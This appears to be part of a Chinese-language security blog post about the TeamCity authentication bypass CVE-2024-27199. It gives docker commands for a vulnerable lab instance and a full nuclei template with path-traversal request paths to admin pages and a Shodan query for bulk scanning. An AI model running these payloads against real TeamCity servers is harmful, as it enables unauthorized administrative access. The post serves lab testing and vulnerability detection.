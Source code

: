 05  
  
—  
  
靶场搭建  
  
  
docker安装  
  
拉取镜像  
```
docker pull jetbrains/teamcity-server:2023.11.3
```  
  
启动容器  
```
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```  
  
然后访问  
http://localhost:8111  
  
  
  
  
06  
  
—  
  
批量扫描poc  
  
  
如果直接使用上面的数据包，实际上已经是一种入侵行为，尝试通过判断版本号来扫描漏洞。各位看官有更好的办法记得私信我。  
  
nuclei poc文件内容如下  
```
id: CVE-2024-27199

info:
  name: TeamCity < 2023.11.4 - Authentication Bypass
  author: DhiyaneshDk
  severity: high
  description: |
    In JetBrains TeamCity before 2023.11.4 path traversal allowing to perform limited admin actions was possible
  reference:
    - https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-27199
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L
    cvss-score: 7.3
    cwe-id: CWE-23
  metadata:
    verified: true
    max-request: 3
    shodan-query: http.component:"TeamCity"
  tags: cve,cve2024,teamcity,jetbrains,auth-bypass

http:
  - method: GET
    path:
      - "{{BaseURL}}/res/../admin/diagnostic.jsp"
      - "{{BaseURL}}/.well-known/acme-challenge/../../admin/diagnostic.jsp"
      - "{{BaseURL}}/update/../admin/diagnostic.jsp"

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(header, "text/html")'
```